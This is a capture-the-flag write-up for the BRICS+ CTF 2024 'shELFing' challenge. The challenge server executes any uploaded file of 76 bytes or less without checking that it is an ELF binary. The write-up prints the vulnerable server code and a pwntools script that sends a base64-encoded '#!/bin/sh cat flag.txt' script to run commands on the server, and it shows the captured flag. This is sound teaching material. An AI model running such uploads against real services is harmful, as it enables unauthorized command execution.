 # shELFing
## Challenge
**Category:** Pwn
**Difficulty:** Entry-Level  
**Source:** BRICS+ CTF 2024
We were presented with a challenge titled "shELFing" with the following description:
> Let's play a game?
> Just send a valid x64 ELF executable binary.  
> But, one rule: size matters!
Additionally, we were provided with a server script (`server.py`) that handles incoming connections and processes the user input.
## Analysis
The provided `server.py` script performs the following steps:
1. **Receives Input:** It prompts the user to enter a base64-encoded ELF x64 executable.
2. **Decodes Input:** It decodes the input from base64.
3. **Checks Size:** It ensures the decoded data does not exceed a maximum size (`MAX_USER_INPUT = 76` bytes).
4. **Writes to File:** It appends four null bytes to the data and writes it to a temporary file in `/tmp/`.
5. **Sets Permissions:** It changes the file permissions to make it executable.
6. **Executes File:** It executes the file using `os.execve`.
Notably, the script includes a `checkElf` function intended to validate that the input is a proper ELF file, but **this function is never called**.
```python
#!/usr/bin/env python3
import sys
import os
import base64
MAX_USER_INPUT = 76
def checkElf(data: bytes) -> bool:
    if data[0:4] != b'\x7fELF':
        return False
    if data[0x12] != 0x3e:
        return False
    if data[0x10] != 0x2:
        return False
    return True
def main():
    elf_data = input("[?] Enter base64 encoded ELF x64 executable: ")
    try:
        elf_data = base64.b64decode(elf_data)
    except:
        print("[-] Can't decode base64!")
        sys.exit(0)
    
    if len(elf_data) > MAX_USER_INPUT:
        print("[-] Error ELF size!")
        sys.exit(0)
    
    elf_data += b'\x00' * 4
    filename = "/tmp/{}".format(os.urandom(16).hex())
    fd = open(filename, 'wb')
    fd.write(elf_data)
    fd.close()
    os.chmod(filename, 0o755)
    os.execve(filename, [filename], {})
if __name__ == "__main__":
    main()
```
### Key Observations
- **Size Limitation:** The executable must be **76 bytes or less** after base64 decoding.
- **No ELF Validation:** Despite having a `checkElf` function, the server does not enforce ELF validation.
- **Execution of Arbitrary Files:** The server executes any file written to `/tmp/`, provided it doesn't exceed the size limit.
## Theory
Understanding how the server processes the input allows us to exploit its behavior:
- **Shebang Scripts:** In Unix-like systems, if an executable file starts with a shebang (`#!`), the kernel uses the specified interpreter to execute the script.
- **Script Execution:** Since the server doesn't validate the file type, we can send a script instead of a binary executable.
- **Command Execution:** By crafting a script that executes commands on the server, we can attempt to read the flag.
## Solution
### Attempted Solutions
1. **Sending a Minimal ELF Binary:**
   - Tried creating an ELF x64 binary under 76 bytes.
   - Found that even the smallest ELF binaries exceed the size limit when including meaningful functionality.
2. **Analyzing the `checkElf` Function:**
   - Noted that `checkElf` is not called.
   - Realized the server doesn't enforce the file to be an ELF binary.
3. **Sending a Shell Script:**
   - Decided to send a shell script starting with `#!/bin/sh`.
   - Crafted a script to read and output the contents of `flag.txt`.
### Final Solution
Send the shell script:
```bash
#!/bin/sh
cat flag.txt
```
Steps:
1. **Prepare the Script:**
   - Wrote the script to read the `flag.txt` file.
2. **Encode in Base64:**
   - Encoded the script in base64 to comply with the server's input format.
3. **Send to Server:**
   - Used `pwntools` to connect to the server.
   - Sent the base64-encoded script when prompted.
4. **Receive the Flag:**
   - Captured the server's response, which included the contents of `flag.txt`.
## How to Avoid
To prevent such vulnerabilities:
- **Input Validation:** Always validate and sanitize user inputs rigorously.
  - Call the `checkElf` function to ensure the file is a legitimate ELF binary.
## Full Solution
Here is the complete script used to solve the challenge:
```python
import base64
from pwn import *
# Content of the script
script = '#!/bin/sh\ncat flag.txt\n'
# Convert the script to bytes
script_bytes = script.encode('utf-8')
# Encode in base64
encoded_script = base64.b64encode(script_bytes)
# Print the encoded script
print(encoded_script.decode())
# Establish remote connection using pwntools
ip = '127.0.0.1'
port = 18181
#ip = '89.169.156.185'
#port = 10418
# Create a remote connection
conn = remote(ip, port)
# Send the base64-encoded script
conn.sendline(encoded_script)
data = b''
while True:
    try:
        line = conn.recvline(timeout=2)  # Receive line by line
        data += line
    except EOFError:  # No more data to receive
        break
print(data.decode())
```
**Output:**
```shell
-$ nc 127.0.0.1 18181
[?] Enter base64 encoded ELF x64 executable: IyEvYmluL3NoCmNhdCBmbGFnLnR4dAo=
brics+{16189ec8-6b4a-444f-83fa-1c4a89cfbe79}
```
